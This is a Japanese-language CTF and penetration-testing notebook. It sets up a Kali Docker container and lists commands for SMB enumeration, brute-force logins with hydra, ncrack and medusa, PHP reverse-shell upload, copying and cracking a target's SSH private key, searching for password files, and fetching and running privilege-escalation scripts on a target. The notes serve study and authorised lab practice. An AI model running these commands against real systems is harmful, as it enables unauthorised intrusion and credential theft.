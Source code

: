 //////////////////////////////
// Settings
//////////////////////////////
:toc: macro
:toc-title: 目次
:toclevels: 5
:sectnums:
:sectanchors:
:sectlinks:
:idprefix:
:idseparator: -
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]

//////////////////////////////
// Contents
//////////////////////////////
= CTF

[CAUTION]
====
KtokKawuは、自衛や検証/CTFのため、ハッキング技術を学習しています。 +
自分の管理外の端末や機器(一般に公開されているWebサイトや各種サーバやWi-Fiスポット、他人の端末や機器等)に対し、 +
非合法な目的で本リポジトリで公開しているツール類やテクニックを使用しないこと。 +
必ず自己責任の元、ローカル環境やCTF等で攻撃が許可されたサイトに対してのみ使用すること。 +
KtokKawuは、本リポジトリを利用する他のユーザや企業、団体等が起こした全ての事象に関して一切責任を負いません。
====

toc::[]

== Kali Dockerコンテナの作成

=== 初回の手順

[PowerShell/CMD]
----
# Kali Linuxの公式イメージDL
docker pull kalilinux/kali-rolling
docker images
# Dockerfileを使用する場合
docker image build -t kalilinux/kali-rolling:latest C:\path\to\Dockerfile
# コンテナ(初回)起動
docker run -it --name <C-NAME> kalilinux/kali-rolling
docker exec -it <CID> /bin/bash
# リポジトリの登録
echo "deb http://http.kali.org/kali kali-rolling main contrib non-free" > /etc/apt/sources.list \
&& echo "deb-src http://http.kali.org/kali kali-rolling main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-last-snapshot main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-experimental main contrib non-free" >> /etc/apt/sources.list
# Kali Linuxのパッケージインストール
apt -y update && apt -y upgrade
apt install -y kali-linux-full
# 他ツール、ライブラリ
apt install -y bash-completion build-essential bzip2 colordiff colortail curl exiftool gdb git iputils-ping iputils-tracepath jq libjpeg-dev libssl-dev libxml2-dev libxslt1-dev ltrace mariadb-client net-tools nodejs npm postgresql python-dev rlwrap smbclient steghide strace telnet tor vim wget yarnpkg zip zlib1g-dev
curl https://raw.githubusercontent.com/Paradoxis/StegCracker/master/stegcracker > /usr/local/bin/stegcracker
chmod +x /usr/local/bin/stegcracker
# apt install -y bash-completion build-essential bzip2 colordiff colortail libjpeg-dev libssl-dev nikto nmblookup pip python-pybloomfiltermmap rpcclient
# Setup gdb-peda
git clone https://github.com/longld/peda.git ~/peda \
&& echo "source ~/peda/peda.py" >> ~/.gdbinit
# Setup nmap CVE script
# Option Usage: --script=vulscan/vulscan.nse www.example.com
git clone https://github.com/scipag/vulscan ~/scipag_vulscan \
&& ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
# Install and configure AutoRecon
mkdir /tools \
&& git clone --depth 1 https://github.com/Tib3rius/AutoRecon.git /tools/AutoRecon \
&& cd /tools/AutoRecon \
&& pip3 install -r requirements.txt \
&& ln -s /tools/AutoRecon/src/autorecon/autorecon.py /usr/local/bin/autorecon
# Get some scripts
git clone https://github.com/pentestmonkey/php-reverse-shell ~/prh \
&& git clone https://github.com/lucyoa/kernel-exploits ~/exploits/ksploits \
&& git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/exploits/peass \
&& git clone https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack ~/exploits/unixploits \
&& git clone https://github.com/danielmiessler/SecLists /usr/share/seclists \
&& git clone https://github.com/andresriancho/w3af.git /opt/w3af \
/opt/w3af/w3af_console ; \
bash /tmp/w3af_dependency_install.sh ; \
echo 'export PATH=/opt/w3af:$PATH' >> /etc/profile
# Get Password list
mkdir ~/pwd-list \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/john.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/cain.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/conficker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/twitter-banned.txt.bz2 \
# Kaliイメージの「/usr/share/wordlists/rockyou.txt」の方が新しい
# && wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpbb.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/myspace.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hotmail.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/faithwriters.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/elitehacker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hak5.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/alypaa.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-pastebay.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porn-unknown.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/tuscl.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-phished.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/carders.cc.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/singles.org.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/english.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/german.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/us_cities.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porno.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/honeynet.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/file-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/fuzzing-strings.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpmyadmin-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-extensions.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-mutations.txt.bz2 \
&& bzip2 -d ~/pwd-list/*.bz2
# コンテナ保存
docker stop <CID>
docker rename <CID> <C-NAME>
docker commit <CID> <REPO-NAME>:<TAG-NAME>
# コンテナ起動(ホスト側へポートフォワード)
docker images
docker run --name <C-NAME> -itd -p <HOST-PORT>:<C-PORT> /bin/bash <REPO-NAME>:<TAG-NAME>
docker ps -a
# 不要なコンテナ、イメージ削除
docker rm -f <CID>
docker rmi -f <IID>
----

=== 2回目以降のコンテナ利用

[PowerShell/CMD]
----
# コンテナ接続
docker exec -it <C-NAME> /bin/bash
# コンテナ開始/停止/再起動
docker stop/start/restart <C-NAME>
# IP確認
docker inspect --format '{{ .NetworkSettings.IPAddress }}' <C-NAME>
----
  
=== 注意事項

* Windows Firewallの受信規則のうち、パブリックの「com.docker.backend」が有効だと、 +
リバースシェルを張る時などのインバウンド通信が失敗してしまう。Linuxで構築する場合も同様。

== ハッキング技術メモ

=== ポートとOSSバージョンの確認

.SMBの例
----
nmap -sC -p 139,445 -sV [TargetIP]
----

=== CVEのチェック

----
git clone https://github.com/scipag/vulscan scipag_vulscan
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
nmap -sV -p [TargetPort] --script=vulscan/vulscan.nse www.example.com [TargetIP]
----

=== ログイン施行

★そのうち書く

=== Steganography

----
exiftool nothing.jpg
binwalk -e nothing.jpg
foremost nothing.jpg
steghide extract -sf nothing.jpg -p [password]
steghide --info nothing.jpg
stegcracker any-name.jpeg /usr/share/wordlists/rockyou.txt
----

=== SMB Attack

==== Tools

[cols="1,5"]
|===
|ツール名 |説明

|nmblookup
|NetBIOS名の検索に使用されるNetBIOS over TCP/IPクライアントを収集

|smbclient
|SMB共有ディレクトリにアクセスするftpのようなクライアント

|nmap
|ポートスキャナ with スクリプト

|rpcclient
|クライアント側のMS-RPC機能を実行するツール

|enum4linux
|さまざまなsmb関数を列挙

|wireshark
|「ntlmssp.ntlmv2_response」でフィルタリングしてNTLMv2のトラフィックからsmbの情報を取得可能
|===

==== チェックリスト

* ホスト名の確認
+
----
# -A オプション：look up by IP address
nmblookup -A [ip]
----
+
* 共有フォルダの一覧
+
----
# ホスト上の共有フォルダ一覧とアクセス権を表示
smbmap -H [ip/hostname] -R
# SMBからファイルを取得
smbmap -H [ip/hostname] -R --download '.\Anonymous\staff.txt'
# 資格情報を取得後に再実行し、新しいアクセス権を表示
smbmap -H [ip] -d [domain] -u [user] -p [password]
# nullログインをチェックするため、"exit"は現れる可能性のある全PW要求を処理する
# -L オプション：指定されたホストの共有のリストを取得します
echo exit | smbclient -L \\\\[ip]
# --script smb-enum-shares：特定のsmb列挙スクリプト
# -p 139,445：smbポートの指定
nmap --script smb-enum-shares -p 139,445 [ip]
----
+
* NULLセッションでの確認
+
----
# 資格情報無しで何ができるか確認
smbmap -H [ip/hostname]
# 本コマンドの後、RPCコマンドを入力してみる
# -U ""：NULLセッション
# -N オプション：PWD無し
rpcclient -U "" -N [ip]
# 共有フォルダへの接続試行、空PWDでも行ける可能性有り。
smbclient \\\\[ip]\\[share name]
----
+
* 脆弱性の確認
+
----
# --script smb-vuln*：全smb脆弱性スキャンスクリプトを実行
nmap --script smb-vuln* -p 139,445 [ip]
----
+
* SMB全体のスキャン
+
----
enum4linux -a [ip]
----
+
上記内容の確認で注目する内容は下記。
+
. nmblookup同様の出力
. nullセッションのチェック
. 共有フォルダのリスト
. ドメイン情報
. パスワードポリシー
. RIDサイクリング出力
* 手操作確認 +
smbのバージョンを取得するスクリプト
+
.smbver.sh
----
#!/bin/sh
# Author: rewardone
# Description:
#   Requires root or enough permissions to use tcpdump
#   Will listen for the first 7 packets of a null login and grab the SMB Version
# Notes:
#   Will sometimes not capture or will print multiple lines.
#   May need to run a second time for success.
# Usage:
#   smbver.sh [IP] (port) [Samba]
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'aUnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
----
+
上記スクリプトの結果が疑わしい時は、PCAPファイルから、smbバージョンを確認
+
----
# 例：Unix Samba 2.2.3a
check pcap
----

=== ディレクトリ検査

----
gobuster -e -u http://[TargetIP]/ -w /usr/share/dirbuster/wordlists/[DirList] -s 200,301,302,403,404 -e -x html,php,txt -l -o ./result_gobuster.txt
----

=== Bruteforce Attack

.Bruteforce tool list
[cols="2, 7a"]
|===
|ツール名 |サポートプロトコル

|Hydra
|TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, +
RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, +
SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, +
Firebird, LDAP2, Cisco AAA, Web form

|Medusa
|AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3, +
PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2, Subversion (SVN), +
Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic Wrapper, Web Form

|Ncrack
|RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet
|===

==== hydra

* 効率的には、およそssh(2/s) < ftp(6/s) < http-basic(100/s)の速さ
* パスワードスプレー攻撃も可能 +
-l：uid固定、-L：uidリスト、-p：pwd固定、-P：pwdリスト

----
hydra -l [uname] \
      -P ~/pwd-list/[pwdtext] \
      [TargetIP] \
      [TargetProtocol] \
      -V \                                                          # PWDマイニング中にUID、PWDを表示
      -f \                                                          # 指定したPWDが見つかったら停止
# Web form
#     http-post-form \
#     "/path/to/login:uid=XXXXX&pwd=XXXXX&Login=Login:Login Failed" # "[Login Page]:[Request Body]:[Error Message]"
----

==== ncrack

* RDPサービスに関してはhydraより早いらしい

----
ncrack -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -T5 [TargetIP] \
       -p [TargetServicePort]
----

==== meduza

* 一番遅い

----
medusa -h [TargetIP] \
       -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -M [TragetService]
# Web Form
#      -M web-form \
#      -m FORM:"path/to/login" \
#      -m DENY-SIGNAL:"Example Access Denied" \
#      -m FORM-DATA:"post?uid=XXXXX&pwd=XXXXX&Login=Login"
----

=== Penetration

==== PHPリバースシェル

===== Scripts

https://github.com/pentestmonkey/php-reverse-shell

===== 手順

----
vim php-reverse-shell.php # change "$ip" value to [MyHostIP]
rlwrap nc -lvnp 1234
# Uploading PRS file & Web Access
----

==== RSAプライベートキーのクラック

----
scp [TargetUser]@[TargetIP]:/home/[TargetUser2]/.ssh/id_rsa /root/
/usr/share/john/ssh2john.py ./id_rsa > crack
john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt crack
john crack --show
chmod 600 id_rsa
----

=== 権限昇格

==== Scripts

. https://github.com/lucyoa/kernel-exploits
. https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
. https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
. https://github.com/rebootuser/LinEnum

==== 攻撃・防御のコツ

* ターゲット側でスクリプトを実行する際は、 +
使っているユーザ権限で自由にファイル授受できるディレクトリに移動するとよい。
+
.権限の緩いディレクトリの例
----
/var/tmp
/dev/shm
/var/lock
/run/lock
----
+
* 攻撃者が足跡をなるべく残さないために何をしている...？ + 
tor、串、over ssh、ログ削除、rootで行動、と他には何があるか？ +
->別サーバへログをリダイレクトしたほうがいい、権限認証もしっかりして侵入させない
+
.RHEL系
|===
|ディレクトリ/ファイル名|形式
|/var/run/utmp|バイナリ
|/var/log|テキスト/バイナリ
|===
+
.Debian系
|===
|ディレクトリ名|形式
|/var/log|テキスト/バイナリ
|===
+
※ logの設定は、/etc/rsyslog.confや/etc/rsyslog.d/*.confを確認
+
* 秘密情報の取得
+
----
find /  -iname "*pwd*" -or -iname "*pass*" -or -iname "*secret*" -or -name "id_rsa" 2>/dev/null
----

==== LinPEAS

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python -m SimpleHTTPServer [MyHostPort]

# ターゲット側 
cd /var/tmp
wget http://[MyHostIP]:[MyHostPort]/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
----

==== LinEnum

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python -m SimpleHTTPServer [MyHostPort]

# ターゲット側
cd /var/tmp
which wget
wget [MyHostIP]:[MyHostPort]/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
----

== 情報元

----
# Docker
https://hub.docker.com/u/kalilinux
https://www.kali.org/docs/containers/official-kalilinux-docker-images/
http://www.tohoho-web.com/docker/index.html
https://qiita.com/wMETAw/items/34ba5c980e2a38e548db
http://docs.docker.jp/index.html
# General
https://kakyouim.hatenablog.com/entry/2020/04/17/182049
# SMB Attack
https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
# Forensic tools
https://qiita.com/knqyf263/items/6ebf06e27be7c48aab2e
https://github.com/Va5c0/Steghide-Brute-Force-Tool
# Directory Search
https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/
# Bruteforce Attack
https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/
https://ozuma.hatenablog.jp/entry/20130601/1370094859
# Penetration
https://github.com/pentestmonkey/php-reverse-shell
# Privilege escalation
https://github.com/lucyoa/kernel-exploits
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/
https://kakyouim.hatenablog.com/entry/2020/03/14/031746
# Password lists
https://wiki.skullsecurity.org/Passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords
# Asscidoctor
https://github.com/asciidoctor/asciidoctor/blob/master/README-jp.adoc
https://asciidoctor.org/docs/user-manual/
https://asciidoctor.org/docs/asciidoc-recommended-practices/
# Linux Log
https://qiita.com/Yorinton/items/897c1ccd6797a7df7805
----
